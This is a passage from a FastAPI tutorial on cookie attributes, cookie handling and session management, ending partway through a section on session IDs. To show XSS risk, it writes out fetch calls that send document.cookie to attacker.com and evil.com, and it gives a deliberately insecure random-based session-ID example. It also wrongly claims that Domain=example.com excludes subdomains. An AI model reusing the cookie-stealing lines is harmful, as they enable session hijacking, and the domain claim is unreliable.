

# Day 5: Cookie-based & Session Authentication

**Date**: Week 4, Day 5  
**Phase**: 2 - FastAPI Mastery  
**Topic**: HTTP Cookies, Session Management, and CSRF Protection

---

## Table of Contents

1. [Cookie-based Authentication Fundamentals](#1-cookie-based-authentication-fundamentals)
2. [Cookie Attributes Deep Dive](#2-cookie-attributes-deep-dive)
3. [Implementing Cookies in FastAPI](#3-implementing-cookies-in-fastapi)
4. [Session Management](#4-session-management)
5. [Session Lifecycle Management](#5-session-lifecycle-management)
6. [CSRF Protection](#6-csrf-cross-site-request-forgery-protection)
7. [Complete Session Authentication Implementation](#7-complete-session-authentication-implementation)
8. [Session Security Best Practices](#8-session-security-best-practices)
9. [Cookies vs JWT Tokens Comparison](#9-cookies-vs-jwt-tokens-comparison)
10. [Complete Practical Examples](#10-complete-practical-examples)
11. [Testing Cookie Authentication](#11-testing-cookie-authentication)
12. [Common Pitfalls](#12-common-pitfalls)
13. [Key Takeaways](#13-key-takeaways)
14. [Practice Exercises](#14-practice-exercises)

---

## 1. Cookie-based Authentication Fundamentals

### 1.1 What are HTTP Cookies?

HTTP cookies are small pieces of data that a server sends to a user's web browser. The browser stores these cookies and sends them back to the server with subsequent requests, allowing the server to maintain stateful information across otherwise stateless HTTP connections.

**RFC 6265 Definition**: A cookie is a string of text that a web server can store on a user's hard disk through the user's web browser, which is then returned to the server on subsequent requests.

**Core Purpose**: Enable stateful sessions over stateless HTTP protocol.

**Cookie Components**:

```
Name: session_id
Value: abc123xyz789
Domain: example.com
Path: /
Expires: Wed, 09 Jun 2027 10:18:14 GMT
Secure: true
HttpOnly: true
SameSite: Strict
```

**Size Limitations**:

- Maximum cookie size: 4096 bytes (4KB)
- Maximum cookies per domain: 50-180 (browser dependent)
- Total cookies: ~3000 (browser dependent)

**Storage Location**:

- Browser memory (session cookies)
- Browser disk storage (persistent cookies)
- Cannot be accessed by other browsers or devices

### 1.2 How Cookies Work

**Cookie Flow Diagram**:

```mermaid
sequenceDiagram
    participant Browser
    participant Server
    participant CookieJar

    Note over Browser,Server: Initial Request (No Cookie)
    Browser->>Server: GET /login
    Server->>Server: User authenticates
    Server->>Browser: Set-Cookie: session_id=abc123; HttpOnly; Secure
    Browser->>CookieJar: Store cookie

    Note over Browser,Server: Subsequent Requests (With Cookie)
    Browser->>CookieJar: Get cookies for example.com
    CookieJar->>Browser: session_id=abc123
    Browser->>Server: GET /profile<br/>Cookie: session_id=abc123
    Server->>Server: Validate session
    Server->>Browser: 200 OK + User Data

    classDef blue fill:#6B8DBE,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF
    classDef teal fill:#6FAFA3,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF
    classDef neutral fill:#3A3F4B,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF

    class Browser,Server blue
    class CookieJar teal
```

**HTTP Headers Involved**:

**Server → Browser (Set-Cookie)**:

```http
HTTP/1.1 200 OK
Set-Cookie: session_id=abc123xyz; HttpOnly; Secure; SameSite=Strict; Path=/; Max-Age=3600
Content-Type: application/json
```

**Browser → Server (Cookie)**:

```http
GET /api/profile HTTP/1.1
Host: example.com
Cookie: session_id=abc123xyz
```

**Automatic Browser Behavior**:

1. Browser receives `Set-Cookie` header from server
2. Browser stores cookie in cookie jar (organized by domain, path)
3. For subsequent requests to matching domain/path, browser automatically includes cookie
4. No JavaScript required (but JavaScript can access non-HttpOnly cookies)
5. Browser enforces security attributes (Secure, SameSite)

### 1.3 Cookie Lifecycle



**Lifecycle Stages**:

**1. Creation**: Server sends `Set-Cookie` header

```python
response.set_cookie(
    key="session_id",
    value="abc123",
    max_age=3600
)
```

**2. Storage**: Browser stores cookie in cookie jar

- Session cookies: Stored in memory (cleared on browser close)
- Persistent cookies: Stored on disk (survive browser restart)

**3. Transmission**: Browser automatically sends cookie with matching requests

```http
Cookie: session_id=abc123; user_pref=dark_mode
```

**4. Expiration**: Cookie becomes invalid

- Time-based: `Max-Age` or `Expires` reached
- Manual: Server sends updated cookie with `Max-Age=0`

**5. Deletion**: Cookie removed from browser

```python
response.delete_cookie(key="session_id")
```

### 1.4 Cookies vs Tokens

**Comparison Table**:

| Aspect              | Cookies                       | Bearer Tokens (JWT)                           |
| ------------------- | ----------------------------- | --------------------------------------------- |
| **Storage**         | Browser cookie jar            | localStorage/sessionStorage                   |
| **Transmission**    | Automatic by browser          | Manual in Authorization header                |
| **Server State**    | Typically stateful (sessions) | Can be stateless (JWT)                        |
| **CSRF Risk**       | High (needs protection)       | Low (not auto-sent)                           |
| **XSS Risk**        | Low (with HttpOnly)           | High (JS accessible)                          |
| **Mobile Apps**     | Limited support               | Full support                                  |
| **Cross-domain**    | Restricted by SameSite        | Flexible                                      |
| **Size Limit**      | 4KB per cookie                | No hard limit (but large headers problematic) |
| **Browser Support** | Universal                     | Manual implementation needed                  |

**Detailed Comparison**:

**Cookies**:

- **Pros**: Automatic, HttpOnly protection, Browser-managed
- **Cons**: CSRF risk, Size limits, Cookie consent laws
- **Best for**: Traditional web apps, server-rendered pages

**Tokens**:

- **Pros**: Stateless possible, No CSRF, Cross-domain friendly
- **Cons**: XSS risk, Manual implementation, Storage concerns
- **Best for**: SPAs, mobile apps, APIs

### 1.5 When to Use Cookie Authentication

**Ideal Use Cases**:

**Traditional Web Applications**:

```python
# Server-rendered pages with form submissions
@app.post("/login")
async def login(username: str = Form(...), password: str = Form(...)):
    # Authenticate user
    # Set session cookie
    # Redirect to dashboard
    pass
```

**Server-Side Rendered (SSR) Applications**:

- Next.js with server components
- Django/Flask applications
- PHP applications
- Any framework with server-side rendering

**Applications Requiring Strong Security**:

- Banking applications
- Healthcare portals
- Government services
- E-commerce checkouts

**Reasons to Choose Cookies**:

1. HttpOnly flag prevents XSS attacks on session IDs
2. Automatic cookie management by browser
3. SameSite attribute provides CSRF protection
4. Secure flag ensures HTTPS-only transmission
5. Native browser support (no custom code needed)

**When NOT to Use Cookies**:

- Pure mobile applications (native iOS/Android)
- Microservices with multiple domains
- Third-party API integrations
- Applications requiring cross-origin requests from different domains

---

## 2. Cookie Attributes Deep Dive

### 2.1 Domain Attribute

The `Domain` attribute specifies which hosts can receive the cookie.

**Syntax**:

```
Set-Cookie: session_id=abc123; Domain=example.com
```

**Domain Matching Rules**:

**1. Exact Domain Match**:

```python
# Set for example.com only
response.set_cookie(key="session", value="abc", domain="example.com")
# Sent to: example.com
# NOT sent to: sub.example.com, other.com
```

**2. Subdomain Inclusion**:

```python
# Set with leading dot (includes subdomains)
response.set_cookie(key="session", value="abc", domain=".example.com")
# Sent to: example.com, sub.example.com, api.example.com
```

**3. No Domain Specified** (Most Restrictive):

```python
# Cookie applies only to exact host
response.set_cookie(key="session", value="abc")
# If set from sub.example.com → only sent to sub.example.com
# NOT sent to: example.com, other.example.com
```

**Subdomain Handling Examples**:

```python
# Scenario 1: Share cookie across subdomains
response.set_cookie(
    key="user_session",
    value="xyz789",
    domain=".myapp.com"  # Note the leading dot
)
# Works on: myapp.com, api.myapp.com, cdn.myapp.com

# Scenario 2: Isolate cookie to specific subdomain
response.set_cookie(
    key="api_session",
    value="xyz789",
    domain="api.myapp.com"  # No leading dot
)
# Only works on: api.myapp.com
# NOT on: myapp.com or other.myapp.com
```

**Security Implications**:

- Broader domain = larger attack surface
- Subdomain XSS can steal cookies from parent domain
- Restrict domain scope as much as possible

**Best Practice**:

```python
# Development (localhost)
response.set_cookie(key="session", value="abc")  # No domain

# Production (specific subdomain)
response.set_cookie(key="session", value="abc", domain="api.example.com")

# Production (shared across subdomains, use cautiously)
response.set_cookie(key="user_pref", value="dark", domain=".example.com")
```

### 2.2 Path Attribute

The `Path` attribute specifies which URL paths can receive the cookie.

**Syntax**:

```
Set-Cookie: session_id=abc123; Path=/api
```

**Path Matching Rules**:

**1. Root Path** (Most Permissive):

```python
response.set_cookie(key="session", value="abc", path="/")
# Sent to: /api, /admin, /users, /anything
```

**2. Specific Path**:

```python
response.set_cookie(key="admin_session", value="xyz", path="/admin")
# Sent to: /admin, /admin/users, /admin/settings
# NOT sent to: /api, /users
```

**3. Path Hierarchy**:

```
Path=/admin matches:
  ✓ /admin
  ✓ /admin/
  ✓ /admin/users
  ✓ /admin/users/123

Path=/admin does NOT match:
  ✗ /
  ✗ /api
  ✗ /adm
  ✗ /administrator
```

**Cookie Visibility Examples**:

```python
# Set different session cookies for different parts of app
@app.post("/api/login")
async def api_login(response: Response):
    response.set_cookie(
        key="api_session",
        value=generate_token(),
        path="/api"  # Only sent to /api/* endpoints
    )

@app.post("/admin/login")
async def admin_login(response: Response):
    response.set_cookie(
        key="admin_session",
        value=generate_token(),
        path="/admin"  # Only sent to /admin/* endpoints
    )
```

**Best Practices**:

```python
# Default: Use root path for app-wide sessions
response.set_cookie(key="session", value="abc", path="/")

# Specific: Restrict sensitive cookies to specific paths
response.set_cookie(key="admin_token", value="xyz", path="/admin")

# API: Separate API authentication
response.set_cookie(key="api_key", value="123", path="/api/v1")
```

### 2.3 Expires and Max-Age

These attributes control cookie lifetime.

**Expires (Absolute Expiration)**:

```python
from datetime import datetime, timedelta

# Set specific expiration date
expires = datetime.utcnow() + timedelta(days=7)
response.set_cookie(
    key="session",
    value="abc",
    expires=expires  # Exact date/time when cookie expires
)

# HTTP header format
# Set-Cookie: session=abc; Expires=Wed, 09 Jun 2027 10:18:14 GMT
```

**Max-Age (Relative Expiration)**:

```python
# Set expiration as seconds from now
response.set_cookie(
    key="session",
    value="abc",
    max_age=3600  # Expires in 3600 seconds (1 hour)
)

# HTTP header format
# Set-Cookie: session=abc; Max-Age=3600
```

**Max-Age vs Expires**:

| Attribute | Type     | Format            | Browser Support | Recommendation |
| --------- | -------- | ----------------- | --------------- | -------------- |
| `Max-Age` | Relative | Seconds (integer) | Modern browsers | Preferred      |
| `Expires` | Absolute | HTTP date format  | All browsers    | Fallback       |

**Best Practice** (use both for compatibility):

```python
from datetime import datetime, timedelta

def set_cookie_with_expiration(response: Response, days: int = 7):
    max_age_seconds = days * 24 * 60 * 60
    expires = datetime.utcnow() + timedelta(days=days)

    response.set_cookie(
        key="session",
        value="abc",
        max_age=max_age_seconds,  # Modern browsers
        expires=expires            # Older browsers
    )
```

**Session Cookies (No Expiration)**:

```python
# No max_age or expires = session cookie
response.set_cookie(
    key="temp_session",
    value="abc"
    # No max_age, no expires
)
# Deleted when browser closes
```

**Persistent Cookies (With Expiration)**:

```python
# With max_age or expires = persistent cookie
response.set_cookie(
    key="remember_me",
    value="abc",
    max_age=30*24*60*60  # 30 days
)
# Survives browser restart
```

**Common Expiration Patterns**:

```python
class CookieExpiration:
    """Standard cookie expiration times."""

    SESSION = None  # Browser session only
    SHORT = 15 * 60  # 15 minutes
    MEDIUM = 24 * 60 * 60  # 1 day
    LONG = 7 * 24 * 60 * 60  # 7 days
    REMEMBER_ME = 30 * 24 * 60 * 60  # 30 days

    @staticmethod
    def get_expiration(duration: str) -> int | None:
        """Get expiration seconds for named duration."""
        return {
            'session': None,
            'short': CookieExpiration.SHORT,
            'medium': CookieExpiration.MEDIUM,
            'long': CookieExpiration.LONG,
            'remember': CookieExpiration.REMEMBER_ME
        }.get(duration, None)
```

### 2.4 Secure Flag

The `Secure` flag restricts cookies to HTTPS connections only.

**Syntax**:

```python
response.set_cookie(
    key="session",
    value="abc",
    secure=True  # HTTPS only
)

# HTTP header:
# Set-Cookie: session=abc; Secure
```

**How Secure Works**:

**With Secure=True**:

```
HTTPS request → Cookie sent ✓
HTTP request → Cookie NOT sent ✗
```

**Without Secure flag**:

```
HTTPS request → Cookie sent ✓
HTTP request → Cookie sent ✓ (SECURITY RISK)
```

**Why Secure Matters**:

**Without Secure flag** (HTTP transmission):

```
Client → [session_id=abc123] → Server
         ↑
    Attacker can intercept plaintext cookie
```

**With Secure flag** (HTTPS only):

```
Client → [encrypted: session_id=abc123] → Server
         ↑
    TLS encryption protects cookie
```

**Production Configuration**:

```python
import os

PRODUCTION = os.getenv("ENVIRONMENT") == "production"

response.set_cookie(
    key="session",
    value=session_id,
    secure=PRODUCTION,  # True in production, False in development
    httponly=True
)
```

**Development Considerations**:

```python
# Development (localhost, HTTP)
response.set_cookie(
    key="dev_session",
    value="abc",
    secure=False  # Allow HTTP for local development
)

# Production (HTTPS required)
response.set_cookie(
    key="session",
    value="abc",
    secure=True  # Enforce HTTPS
)
```

### 2.5 HttpOnly Flag

The `HttpOnly` flag prevents JavaScript access to cookies, providing crucial XSS protection.

**Syntax**:

```python
response.set_cookie(
    key="session",
    value="abc",
    httponly=True  # No JavaScript access
)

# HTTP header:
# Set-Cookie: session=abc; HttpOnly
```

**JavaScript Access Prevention**:

**Without HttpOnly**:

```javascript
// JavaScript CAN access cookie
console.log(document.cookie);
// Output: "session=abc123; user_pref=dark"

// Attacker can steal cookie via XSS
fetch("https://attacker.com/steal?cookie=" + document.cookie);
```

**With HttpOnly**:

```javascript
// JavaScript CANNOT access cookie
console.log(document.cookie);
// Output: "user_pref=dark"  (only non-HttpOnly cookies shown)

// session cookie is invisible to JavaScript
```

**XSS Protection Example**:

```python
# Vulnerable (no HttpOnly)
response.set_cookie(
    key="session_id",
    value="secret_token_123",
    httponly=False  # BAD: JavaScript can access
)

# Attacker injects: <script>
#   fetch('https://evil.com/steal?c=' + document.cookie)
# </script>
# Result: Session stolen

# Protected (with HttpOnly)
response.set_cookie(
    key="session_id",
    value="secret_token_123",
    httponly=True  # GOOD: JavaScript blocked
)

# Same XSS attack:
# document.cookie doesn't include session_id
# Session NOT stolen
```

**When to Use HttpOnly**:

```python
# Authentication cookies: ALWAYS HttpOnly
response.set_cookie(
    key="session_id",
    value=session_token,
    httponly=True  # Critical for security
)

# User preferences: Can be non-HttpOnly
response.set_cookie(
    key="theme",
    value="dark",
    httponly=False  # OK for non-sensitive data
)

# CSRF tokens: Non-HttpOnly (JavaScript needs access)
response.set_cookie(
    key="csrf_token",
    value=csrf_token,
    httponly=False  # JavaScript must read for AJAX requests
)
```

**Best Practice**:

```python
def set_session_cookie(response: Response, session_id: str):
    """
    Set session cookie with security best practices.
    """
    response.set_cookie(
        key="session_id",
        value=session_id,
        httponly=True,   # Prevent XSS
        secure=True,      # HTTPS only
        samesite="strict" # Prevent CSRF
    )
```

### 2.6 SameSite Attribute

The `SameSite` attribute controls whether cookies are sent with cross-site requests, providing CSRF protection.

**Syntax**:

```python
response.set_cookie(
    key="session",
    value="abc",
    samesite="strict"  # or "lax" or "none"
)
```

**SameSite Options**:

#### SameSite=Strict (Maximum Protection)

**Behavior**: Cookie ONLY sent with requests from same site.

```python
response.set_cookie(
    key="session",
    value="abc",
    samesite="strict"
)
```

**When Cookie is Sent**:

```
User on example.com clicks link to example.com → Cookie sent ✓
User on example.com submits form to example.com → Cookie sent ✓
```

**When Cookie is NOT Sent**:

```
User on other-site.com clicks link to example.com → Cookie NOT sent ✗
User on other-site.com submits form to example.com → Cookie NOT sent ✗
Email link to example.com → Cookie NOT sent ✗
```

**Use Case**: Maximum security for authenticated actions.

**Drawback**: Users clicking links from external sites must re-authenticate.

#### SameSite=Lax (Balanced Protection)

**Behavior**: Cookie sent with top-level navigation (GET requests) but not with cross-site POST/AJAX.

```python
response.set_cookie(
    key="session",
    value="abc",
    samesite="lax"  # Default in modern browsers
)
```

**When Cookie is Sent**:

```
User on other-site.com clicks GET link to example.com → Cookie sent ✓
User navigates directly to example.com → Cookie sent ✓
User on example.com makes any request → Cookie sent ✓
```

**When Cookie is NOT Sent**:

```
User on other-site.com submits POST form to example.com → Cookie NOT sent ✗
Cross-site AJAX/fetch POST to example.com → Cookie NOT sent ✗
 from other-site.com → Cookie NOT sent ✗
```

**Use Case**: Default for most web applications. Good balance of security and usability.

#### SameSite=None (No Protection)

**Behavior**: Cookie sent with ALL requests (same-site and cross-site).

```python
response.set_cookie(
    key="session",
    value="abc",
    samesite="none",
    secure=True  # Required with SameSite=None
)
```

**When to Use**:

- Third-party cookies (ads, analytics)
- Cross-origin API requests
- Embedded iframes from different domains

**Security Requirement**: MUST use `Secure=True` with `SameSite=None`.

**Comparison Table**:

| Scenario                     | Strict | Lax | None |
| ---------------------------- | ------ | --- | ---- |
| Link from external site      | ✗      | ✓   | ✓    |
| Form POST from external site | ✗      | ✗   | ✓    |
| AJAX from external site      | ✗      | ✗   | ✓    |
| Iframe from external site    | ✗      | ✗   | ✓    |
| Same-site requests           | ✓      | ✓   | ✓    |

**CSRF Protection Levels**:

```python
# Highest CSRF protection (strict)
response.set_cookie(
    key="session",
    value=session_id,
    samesite="strict",
    secure=True,
    httponly=True
)
# Users must be on your site to make authenticated requests

# Balanced protection (lax) - RECOMMENDED
response.set_cookie(
    key="session",
    value=session_id,
    samesite="lax",  # Default in modern browsers
    secure=True,
    httponly=True
)
# Protects against POST-based CSRF, allows GET navigation

# No CSRF protection (none)
response.set_cookie(
    key="third_party_cookie",
    value="abc",
    samesite="none",
    secure=True  # Required
)
# Only use for specific cross-origin needs
```

**Real-World Example**:

```python
@app.post("/login")
async def login(response: Response):
    session_id = create_session()

    # Main session: Lax (allows external links)
    response.set_cookie(
        key="session_id",
        value=session_id,
        samesite="lax",
        httponly=True,
        secure=True,
        max_age=3600
    )

    # Sensitive actions: Strict (maximum protection)
    response.set_cookie(
        key="admin_session",
        value=admin_token,
        samesite="strict",
        httponly=True,
        secure=True,
        path="/admin"
    )

    return {"message": "Logged in"}
```

### 2.7 Cookie Priority

The `Priority` attribute (Chrome/Edge only) hints browser priority for cookie eviction when storage limits are reached.

**Syntax**:

```python
# Note: Not supported by FastAPI's Response.set_cookie()
# Must use custom Set-Cookie header
response.headers["Set-Cookie"] = "session=abc; Priority=High"
```

**Priority Levels**:

- `Low`: Evicted first when storage full
- `Medium`: Default priority
- `High`: Evicted last, preserved longer

**Use Cases**:

```
High: Authentication cookies, critical session data
Medium: User preferences, non-critical state
Low: Analytics, temporary tracking
```

**Browser Support**: Limited (Chrome, Edge). Other browsers ignore this attribute.

---

## 3. Implementing Cookies in FastAPI

### 3.1 Setting Cookies

#### Response.set_cookie()

**Basic Cookie**:

```python
from fastapi import FastAPI, Response

app = FastAPI()

@app.get("/set-cookie")
async def set_simple_cookie(response: Response):
    response.set_cookie(key="user_id", value="123")
    return {"message": "Cookie set"}
```

**Cookie Parameters**:

```python
response.set_cookie(
    key="session_id",           # Cookie name (required)
    value="abc123xyz",          # Cookie value (required)
    max_age=3600,               # Expiration in seconds
    expires=None,               # Alternative: absolute expiration datetime
    path="/",                   # URL path scope
    domain=None,                # Domain scope
    secure=True,                # HTTPS only
    httponly=True,              # No JavaScript access
    samesite="lax"              # CSRF protection: "strict", "lax", "none"
)
```

**Complete Example**:

```python
from datetime import datetime, timedelta

@app.post("/login")
async def login(response: Response, username: str, password: str):
    # Authenticate user (simplified)
    if not verify_credentials(username, password):
        raise HTTPException(status_code=401, detail="Invalid credentials")

    # Create session
    session_id = create_session(username)

    # Set secure session cookie
    response.set_cookie(
        key="session_id",
        value=session_id,
        max_age=7200,           # 2 hours
        path="/",
        domain=None,            # Current domain only
        secure=True,            # HTTPS only in production
        httponly=True,          # Prevent XSS
        samesite="lax"          # CSRF protection
    )

    return {"message": "Logged in successfully"}
```

### 3.2 Reading Cookies

#### Cookie Dependency

```python
from fastapi import Cookie
from typing import Annotated

@app.get("/profile")
async def get_profile(session_id: Annotated[str | None, Cookie()] = None):
    """
    Read cookie using Cookie dependency.
    """
    if not session_id:
        raise HTTPException(status_code=401, detail="Not authenticated")

    # Validate session
    user = validate_session(session_id)

    return {"username": user.username}
```

**Required vs Optional Cookies**:

```python
# Required cookie (raises 422 if missing)
@app.get("/required")
async def required_cookie(
    session_id: Annotated[str, Cookie()]  # No default = required
):
    return {"session": session_id}

# Optional cookie (None if missing)
@app.get("/optional")
async def optional_cookie(
    session_id: Annotated[str | None, Cookie()] = None
):
    if session_id:
        return {"session": session_id}
    return {"session": "guest"}
```

#### Request.cookies

```python
from fastapi import Request

@app.get("/all-cookies")
async def get_all_cookies(request: Request):
    """
    Access all cookies from request.
    """
    return {
        "cookies": request.cookies,
        "session_id": request.cookies.get("session_id"),
        "user_pref": request.cookies.get("user_pref", "default")
    }
```

**Cookie Validation Dependency**:

```python
from fastapi import Depends, HTTPException, Cookie
from typing import Annotated

async def get_current_user(
    session_id: Annotated[str | None, Cookie()] = None,
    db: Session = Depends(get_db)
) -> User:
    """
    Dependency to get current user from session cookie.
    """
    if not session_id:
        raise HTTPException(
            status_code=401,
            detail="Not authenticated",
            headers={"WWW-Authenticate": "Cookie"}
        )

    # Validate session
    session = validate_session(db, session_id)

    if not session:
        raise HTTPException(status_code=401, detail="Invalid session")

    # Get user
    user = db.query(User).filter(User.id == session.user_id).first()

    if not user:
        raise HTTPException(status_code=401, detail="User not found")

    return user

@app.get("/dashboard")
async def dashboard(current_user: Annotated[User, Depends(get_current_user)]):
    """
    Protected endpoint using cookie authentication.
    """
    return {
        "username": current_user.username,
        "email": current_user.email
    }
```

### 3.3 Deleting Cookies

#### Response.delete_cookie()

```python
@app.post("/logout")
async def logout(response: Response):
    """
    Logout by deleting session cookie.
    """
    response.delete_cookie(key="session_id")
    return {"message": "Logged out"}
```

**How delete_cookie() Works**:

```python
# Internally, delete_cookie() sets cookie with Max-Age=0
response.set_cookie(
    key="session_id",
    value="",
    max_age=0,      # Expire immediately
    expires=0
)
```

**Delete with Matching Attributes**:

```python
# Cookie was set with specific path/domain
response.set_cookie(
    key="admin_session",
    value="abc",
    path="/admin",
    domain=".example.com"
)

# Must delete with SAME path/domain
response.delete_cookie(
    key="admin_session",
    path="/admin",        # Must match
    domain=".example.com" # Must match
)
```

**Complete Logout Example**:

```python
@app.post("/logout")
async def logout(
    response: Response,
    session_id: Annotated[str | None, Cookie()] = None,
    db: Session = Depends(get_db)
):
    """
    Complete logout: delete session from database and cookie.
    """
    if session_id:
        # Delete session from database
        db.query(Session).filter(Session.session_id == session_id).delete()
        db.commit()

    # Delete cookie
    response.delete_cookie(
        key="session_id",
        path="/",
        domain=None
    )

    return {"message": "Logged out successfully"}
```

### 3.4 Secure Cookie Configuration

```python
from pydantic_settings import BaseSettings
import os

class Settings(BaseSettings):
    """Application settings."""

    environment: str = os.getenv("ENVIRONMENT", "development")
    cookie_domain: str | None = None
    cookie_secure: bool = environment == "production"
    cookie_samesite: str = "lax"
    session_max_age: int = 7200  # 2 hours

    class Config:
        env_file = ".env"

settings = Settings()

def set_secure_cookie(
    response: Response,
    key: str,
    value: str,
    max_age: int | None = None
):
    """
    Set cookie with security best practices.
    """
    response.set_cookie(
        key=key,
        value=value,
        max_age=max_age or settings.session_max_age,
        path="/",
        domain=settings.cookie_domain,
        secure=settings.cookie_secure,  # True in production
        httponly=True,
        samesite=settings.cookie_samesite
    )

@app.post("/login")
async def login(response: Response, credentials: LoginRequest):
    user = authenticate_user(credentials)
    session_id = create_session(user.id)

    # Use secure configuration
    set_secure_cookie(response, "session_id", session_id)

    return {"message": "Logged in"}
```

### 3.5 Code Examples

**Example 1: Multi-Cookie Setup**:

```python
@app.post("/login")
async def login(response: Response, remember_me: bool = False):
    user = authenticate_user()
    session_id = create_session(user.id)

    # Session cookie (short-lived)
    response.set_cookie(
        key="session_id",
        value=session_id,
        max_age=3600 if not remember_me else None,
        httponly=True,
        secure=True,
        samesite="lax"
    )

    # Remember me cookie (long-lived)
    if remember_me:
        remember_token = create_remember_token(user.id)
        response.set_cookie(
            key="remember_token",
            value=remember_token,
            max_age=30*24*60*60,  # 30 days
            httponly=True,
            secure=True,
            samesite="lax"
        )

    # User preferences (non-sensitive)
    response.set_cookie(
        key="theme",
        value=user.preferences.theme,
        max_age=365*24*60*60,  # 1 year
        httponly=False,  # JavaScript can access
        secure=False,
        samesite="lax"
    )

    return {"message": "Logged in"}
```

**Example 2: Cookie-based API Authentication**:

```python
from fastapi import Depends, Cookie, HTTPException
from typing import Annotated

async def verify_session_cookie(
    session_id: Annotated[str | None, Cookie()] = None
) -> str:
    """Verify session cookie exists and is valid."""
    if not session_id:
        raise HTTPException(
            status_code=401,
            detail="Session cookie required"
        )
    return session_id

async def get_current_user_from_cookie(
    session_id: Annotated[str, Depends(verify_session_cookie)],
    db: Session = Depends(get_db)
) -> User:
    """Get user from session cookie."""
    session = db.query(SessionModel).filter(
        SessionModel.session_id == session_id,
        SessionModel.expires_at > datetime.utcnow()
    ).first()

    if not session:
        raise HTTPException(status_code=401, detail="Invalid or expired session")

    user = db.query(User).filter(User.id == session.user_id).first()

    if not user:
        raise HTTPException(status_code=401, detail="User not found")

    return user

@app.get("/api/profile")
async def get_profile(
    current_user: Annotated[User, Depends(get_current_user_from_cookie)]
):
    """Protected API endpoint using cookie authentication."""
    return {
        "id": current_user.id,
        "username": current_user.username,
        "email": current_user.email
    }
```

---

## 4. Session Management

### 4.1 What are Sessions?

Sessions are server-side storage mechanisms that maintain state across multiple HTTP requests from the same client. While cookies store data on the client, sessions store data on the server and use a session ID cookie to link requests to session data.

**Core Concept**:

```
Cookie: session_id=abc123
Server Storage: {
    "abc123": {
        "user_id": "user_456",
        "logged_in_at": "2024-01-31T10:00:00",
        "preferences": {...}
    }
}
```

**Session Components**:

**1. Session ID**: Unique identifier stored in cookie

```python
session_id = "550e8400-e29b-41d4-a716-446655440000"
```

**2. Session Data**: Server-side storage of user state

```python
session_data = {
    "user_id": "123",
    "username": "alice",
    "role": "admin",
    "cart": ["item1", "item2"],
    "last_activity": datetime.utcnow()
}
```

**3. Session Store**: Backend storage (Redis, database, memory)

**Session Flow**:

```mermaid
sequenceDiagram
    participant Browser
    participant Server
    participant SessionStore

    Note over Browser,SessionStore: Login
    Browser->>Server: POST /login (credentials)
    Server->>SessionStore: Create session
    SessionStore->>Server: session_id=abc123
    Server->>Browser: Set-Cookie: session_id=abc123

    Note over Browser,SessionStore: Subsequent Request
    Browser->>Server: GET /profile<br/>Cookie: session_id=abc123
    Server->>SessionStore: Get session data (abc123)
    SessionStore->>Server: {user_id: 123, ...}
    Server->>Browser: User profile data

    classDef blue fill:#6B8DBE,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF
    classDef teal fill:#6FAFA3,stroke:#FFFFFF,stroke-width:2px,color:#FFFFFF

    class Browser,Server blue
    class SessionStore teal
```

### 4.2 Session vs Token Authentication

**Detailed Comparison**:

| Aspect                | Session (Cookie)                 | Token (JWT)                       |
| --------------------- | -------------------------------- | --------------------------------- |
| **Storage Location**  | Server-side (Redis/DB)           | Client-side (localStorage/cookie) |
| **Client Identifier** | Session ID cookie                | JWT token                         |
| **Stateful**          | Yes (server tracks sessions)     | No (token is self-contained)      |
| **Revocation**        | Easy (delete from storage)       | Difficult (needs blacklist)       |
| **Storage Overhead**  | Server memory/database           | None (client stores)              |
| **Validation Speed**  | Slower (database lookup)         | Faster (signature verification)   |
| **Data Size**         | Large data possible              | Limited by header size            |
| **Scalability**       | Harder (shared session store)    | Easier (stateless)                |
| **Security**          | HttpOnly cookie (XSS protection) | Vulnerable if in localStorage     |

**When to Use Sessions**:

```python
# Traditional web application
# - Server-rendered pages
# - Forms with CSRF tokens
# - Need to track active sessions
# - Need instant revocation capability

@app.post("/login")
async def session_login(response: Response):
    session_id = create_session()
    response.set_cookie(key="session_id", value=session_id, httponly=True)
```

**When to Use Tokens**:

```python
# Modern SPA or mobile app
# - Stateless API
# - Microservices architecture
# - Cross-domain requests
# - Client-side session management

@app.post("/login")
async def token_login():
    token = create_jwt(user_id)
    return {"access_token": token}
```

### 4.3 Session ID Generation

#### Secure Random Generation

```python
import secrets

def generate_session_id() -> str:
    """
    Generate cryptographically secure session ID.

    Returns 256-bit (32 bytes) random string.
    """
    return secrets.token_urlsafe(32)

# Example output:
# "dGhpcyBpcyBhIHRlc3Qgc3RyaW5nIGZvciBkZW1vbnN0cmF0aW9u"
```

**Why `secrets` Module**:

- Cryptographically secure random number generator (CSPRNG)
- Platform-specific randomness source
- NOT predictable (unlike `random` module)

**DON'T Use `random` Module**:

```python
# INSECURE - DO NOT USE
import random
session_id = ''.join(random.choices('abc123', k=32))  # Predictable!
```

#### UUID vs Random Strings

**UUID (Universally Unique Identifier)**:

```python
import uuid

def generate_session_id_uuid() -> str:
    """Generate session ID using UUID4."""
    return str(uuid.uuid4())

# Example: "550e8400-e29b-41d4-a716-446655440000"
```

**UUID Pros**:

